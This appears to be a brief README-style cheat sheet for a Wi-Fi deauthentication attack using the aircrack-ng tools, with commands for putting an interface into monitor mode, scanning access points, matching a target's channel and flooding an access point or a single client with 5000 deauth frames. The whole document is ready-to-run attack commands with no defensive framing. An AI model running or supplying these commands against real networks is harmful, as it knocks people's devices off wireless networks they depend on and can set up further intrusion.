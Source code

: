 ## Deauth Attack
Set interface into monitor mode
```txt
sudo airmon-ng start wlan1
```
Scan nearby Access Points
```
sudo airodump-ng wlan1 
```
Scan specific AP
```
sudo airodump-ng --bssid <Target AP> --channel <Select channel number of target AP> wlan1
```
Set wifi interface channel same as target AP
```
sudo iwconfig wlan1 channel <Select channel number of target AP>
```
Start deauth attack for target AP
```
sudo aireplay-ng -0 5000 -a <Target BSSID mac address> wlan1 
```
Start deauth attack for specific client of target AP
```
sudo aireplay-ng --deauth 5000 -a <BSSID of target AP> -c <BSSID of target client> wlan1
```
